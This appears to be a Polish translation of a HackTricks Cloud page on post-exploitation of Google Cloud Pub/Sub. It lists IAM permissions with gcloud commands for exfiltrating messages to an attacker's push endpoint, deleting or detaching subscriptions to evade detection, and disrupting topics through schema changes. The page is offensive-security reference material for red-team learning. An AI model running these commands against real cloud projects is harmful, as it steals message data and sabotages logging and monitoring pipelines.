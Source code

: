 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Pub/Sub

Więcej informacji o Pub/Sub znajdziesz na poniższej stronie:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publikuj wiadomość w temacie, przydatne do **wysyłania nieoczekiwanych danych** i wywoływania nieoczekiwanych funkcji lub wykorzystywania luk:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Przydatne do zapobiegania otrzymywaniu wiadomości przez subskrypcję, może w celu uniknięcia wykrycia.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Przydatne, aby zapobiec otrzymywaniu wiadomości przez subskrypcję, może w celu uniknięcia wykrycia.\
Możliwe jest usunięcie tematu nawet z dołączonymi subskrypcjami.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Użyj tego uprawnienia, aby zaktualizować niektóre ustawienia tematu, aby go zakłócić, takie jak `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Nadaj sobie uprawnienia do wykonania któregokolwiek z poprzednich ataków.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pobierz wszystkie wiadomości na serwerze WWW:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Utwórz subskrypcję i użyj jej do **pobierania wiadomości**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Usunięcie subskrypcji** może być przydatne do zakłócenia systemu przetwarzania logów lub czegoś podobnego:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Użyj tego uprawnienia, aby zaktualizować niektóre ustawienia, tak aby wiadomości były przechowywane w miejscu, do którego masz dostęp (URL, tabela Big Query, Bucket) lub po prostu, aby je zakłócić.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do wykonania któregokolwiek z wcześniej wspomnianych ataków.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Dołącz schemat do tematu, aby wiadomości go nie spełniały, co spowoduje zakłócenie tematu.\
Jeśli nie ma żadnych schematów, może być konieczne utworzenie jednego.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Może się wydawać, że usunięcie schematu pozwoli na wysyłanie wiadomości, które nie spełniają wymagań schematu. Jednakże, ponieważ schemat zostanie usunięty, żadna wiadomość faktycznie nie trafi do tematu. Więc to jest **BEZUŻYTECZNE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do wykonania któregokolwiek z wcześniej wspomnianych ataków.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

To utworzy migawkę wszystkich niepotwierdzonych wiadomości i przywróci je do subskrypcji. Niezbyt przydatne dla atakującego, ale oto jest:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Naucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

